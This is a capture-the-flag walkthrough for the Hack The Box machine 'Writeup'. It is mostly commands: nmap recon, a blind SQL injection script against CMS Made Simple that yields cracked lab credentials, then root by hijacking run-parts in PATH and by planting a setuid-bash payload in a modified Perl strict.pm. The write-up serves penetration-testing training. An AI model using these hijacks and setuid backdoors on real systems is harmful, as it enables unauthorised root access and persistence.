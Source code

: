 # 🧭 HTB: Writeup – Command Walkthrough



## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Initial Access**: Blind SQLi in CMS Made Simple
- **Privilege Escalation**: PATH hijack via `run-parts`
- **Extras**: Perl module hijack (Beyond Root)

---

## 🔎 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
```

### 🔍 Targeted Service & Script Scan
```bash
nmap -p 22,80 -sV -sC -oA scans/nmap_scripts 10.10.10.138
```

### 📄 robots.txt Discovery
```bash
curl http://10.10.10.138/robots.txt
```

---

## 🐚 Shell as jkr

### 💉 SQL Injection Exploit (Blind SQLi)
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

### 🔑 Output Credentials
```
Username: jkr
Password: raykayjay9
```

### 🔐 [SSH](SSH) Login
```bash
ssh jkr@10.10.10.138
```

---

## 🔼 Privilege Escalation (jkr → root)

### 👥 Check Groups
```bash
id
```

### 📂 Writable Directories
```bash
ls -ld /usr/local/bin/ /usr/local/sbin/
```

### 🔍 Watch Processes with pspy
*(Upload and run `pspy`)*
```bash
./pspy64
```

### 🪤 Hijack `run-parts` in PATH
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

### 🔁 Reconnect to Trigger Payload
```bash
ssh jkr@10.10.10.138
```

### 🔓 Run Backdoored Bash
```bash
/bin/0xdf -p
```

---

## 🧠 Beyond Root – Perl Module Hijack

### 📂 Check Default Perl Modules
```bash
perl -MData::Dumper -e 'print Dumper \%INC'
```

### 📍 Print Perl Include Path
```bash
perl -e 'print join(":",@INC)'
```

### 📁 Create Writable Perl Include Directory
```bash
mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
```

### 📄 Copy and Modify `strict.pm`
```bash
cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
```

Edit `/usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm` and insert:
```perl
system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
```

### 🧪 Trigger Again via SSH
```bash
ssh jkr@10.10.10.138
/bin/0xdf -p
```